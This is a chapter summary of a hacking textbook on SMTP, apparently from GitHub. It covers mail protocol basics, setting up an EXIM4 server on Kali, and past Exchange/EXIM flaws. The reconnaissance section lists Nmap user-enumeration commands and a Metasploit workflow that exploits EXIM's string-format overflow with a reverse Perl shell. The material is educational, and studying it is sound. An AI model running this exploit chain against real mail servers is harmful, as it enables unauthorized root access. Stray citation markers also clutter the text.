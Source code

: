 SUMMARY OF 
**NETWORK BASICS FOR HACKERS** 
BY OCCUPYTHEWEB

---

# CHAPTER 10: SIMPLE MESSAGE TRANSFER PROTOCOL (SMTP)

---

- This chapter explains SMTP’s role in email delivery, walks through traffic analysis, shows how to stand up an EXIM4 server on Kali, and demonstrates reconnaissance and exploitation workflows against SMTP infrastructure. :contentReference[oaicite:0]{index=0}

## What is SMTP?

- SMTP moves email between servers; clients typically **send** via SMTP and **retrieve** via POP3 or IMAP. Server-to-server delivery is SMTP on **port 25**, POP3 uses **110**, and IMAP uses **143**. Although first standardized in **1983**, SMTP still carries nearly all email today. :contentReference[oaicite:1]{index=1} :contentReference[oaicite:2]{index=2}

## The Email Processing Model

- A Mail User Agent (MUA) submits mail to a Mail Submission Agent/Server (MSA) using SMTP on **port 587**. The message is forwarded to a Mail Transfer Agent/Unit (MTA/MTU). The boundary MTA looks up the recipient domain’s **MX record** in DNS, connects to the target MTA, and sends the message. On receipt, a **Mail Delivery Agent (MDA)** stores it for the authenticated MUA to retrieve. :contentReference[oaicite:3]{index=3} :contentReference[oaicite:4]{index=4}

## Packet-Level Analysis of SMTP

- A typical trace shows the **TCP three-way handshake** (SYN, SYN/ACK, ACK), the server banner (e.g., Postfix on Ubuntu), and client commands: **EHLO**, then addressing via **MAIL FROM** and **RCPT TO**. :contentReference[oaicite:5]{index=5}

## Building an SMTP (EXIM4) Server in Linux

- Install EXIM4 on Kali from the repo: `sudo apt install exim4`. Run the configuration wizard: `sudo dpkg-reconfigure exim4-config`. Choose your **mail server type** (for Internet send/receive), supply your **owned domain**, set the **listen IP**, confirm **local recipient domains** (default “kali”), optionally leave **relay domains** blank, pick local delivery method (**/var/mail** or home), optionally minimize **DNS lookups**, decide whether to **split** the config (unsplit for stability), then **start** EXIM4 to send/receive mail. :contentReference[oaicite:6]{index=6} :contentReference[oaicite:7]{index=7} :contentReference[oaicite:8]{index=8} :contentReference[oaicite:9]{index=9} :contentReference[oaicite:10]{index=10}

## Vulnerabilities in SMTP

- **Microsoft Exchange (2021):** widely exploited vulnerabilities enabled access to corporate/institutional email; the FBI was authorized to patch affected US systems. :contentReference[oaicite:11]{index=11}  
- **EXIM (2020):** two severe EXIM server flaws allowed unauthorized access to stored email. :contentReference[oaicite:12]{index=12}

## Reconnaissance and Hacking SMTP

- **Service & version discovery:** Scan SMTP on **port 25** with Nmap and aggressive detection:  
  `nmap -sT -A <target> -p25`. :contentReference[oaicite:13]{index=13}  
- **Scripted enumeration & vuln checks:** Run all SMTP NSE scripts:  
  `nmap --script=smtp-* <target> -p25` → can **enumerate users** and flag known issues (e.g., **CVE-2010-4344/4345**). :contentReference[oaicite:14]{index=14} :contentReference[oaicite:15]{index=15}  
- **Exploit with Metasploit:**  
  `msfconsole` → `search type:exploits exim` → `use exploit/unix/smtp/exim4_string_format` → `info` (heap buffer overflow; **auto-priv-esc to root if Perl detected**) → set `RHOSTS`, choose payload `cmd/unix/reverse_perl`, set `LHOST`/`LPORT` (e.g., 443), then `exploit`. Successful runs yield a shell; verify with `id`, `whoami`, `pwd`, `uname -a`. :contentReference[oaicite:16]{index=16} :contentReference[oaicite:17]{index=17} :contentReference[oaicite:18]{index=18} :contentReference[oaicite:19]{index=19} :contentReference[oaicite:20]{index=20} :contentReference[oaicite:21]{index=21}

## Exercises

- Build an SMTP server for your domain. :contentReference[oaicite:22]{index=22}  
- Conduct reconnaissance on your new SMTP server. :contentReference[oaicite:23]{index=23}

---

## Summary author: **Jeremy Ray Jewell**
[GitHub](https://github.com/jeremyrayjewell)  
[LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
